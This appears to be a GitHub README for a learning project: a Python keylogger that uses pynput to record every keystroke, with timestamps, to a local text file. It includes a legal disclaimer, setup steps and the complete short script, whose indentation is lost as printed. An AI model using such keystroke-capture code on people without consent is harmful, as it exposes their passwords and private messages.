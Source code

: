 # Keylogger_Project

## Project Description

This project is a Python-based keylogger designed to capture keystrokes and store them in a local text file. It was created for learning and exploration purposes, and it demonstrates the use of libraries and logging functionality in Python.

## ⚠️ Disclaimer

This project is intended strictly for educational and testing purposes. Unauthorized or malicious use of this script for tracking keystrokes or other unauthorized activities may violate privacy laws and is strictly prohibited. By using this project, you agree to adhere to all applicable laws and use this code responsibly. The author does not endorse or condone the use of this script for any unlawful or unauthorized purposes.

## Learning Objectives

The goals for this project included:
   
   Building a functional keylogger script in Python.
   Understanding and resolving issues with virtual environments and package installations.
   Gaining familiarity with troubleshooting techniques in different development environments (WSL and native Windows).

## Prerequisites:

   - Python 3.10 or later
   - pynput package
   - Virtual environment setup (optional)

## Setup and Installation
  ### 1. Clone the repository:

    git clone https://github.com/yourusername/Keylogger_Project.git

  ### 2. Create a virtual environment:

    python3 -m venv keylogger_env

  ### 3. Activate the environment:

  ### For Windows:

      keylogger_env\Scripts\activate

  ### For WSL/Linux:

      source keylogger_env/bin/activate

  ### 4. Install dependencies:

    pip install pynput

## Usage

  1. Run the script:

    python3 keylogger_script.py

  2. Log files will be generated in the same directory as <keylogger_script.py>.


## Key Challenges and Solutions

During this project, several challenges were encountered and resolved:

   1. Issue: ModuleNotFoundError for pynput
        -Solution: Verified virtual environment installation and activated it correctly. Found that sudo bypassed the virtual environment, so permissions were managed without sudo.

   2. Environment-Specific Issues:
        -Problem: Script did not initially work on WSL.
        -Solution: Troubleshot environment by switching to a native Windows environment. This helped verify if WSL-specific permissions were the source of the issue.

   3. Permissions:
        -Solution: Adjusted file permissions in Ubuntu to ensure the script could write to the log file, especially when running without elevated permissions.

## Script Overview

Each part of the code in keylogger_script.py is briefly explained below to help other users understand its function:

 python

    from pynput import keyboard
    import logging
    from datetime import datetime

    # Setup logging configuration
    logging.basicConfig(filename="key_log.txt", level=logging.DEBUG, format="%(asctime)s - %(message)s")

    # Function to log keystrokes
    def on_press(key):
    logging.info(f"{key} pressed")

    # Start listener
    with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

  - pynput: Used to capture keystrokes.
  - logging: Logs each keystroke into key_log.txt with date and timestamp.
  - keyboard.Listener: Initiates listening and logging until manually stopped.

## Future Improvements

  - Error Handling: Add error handling for different environments.
  - Dynamic File Paths: Allow for customizable log file paths.

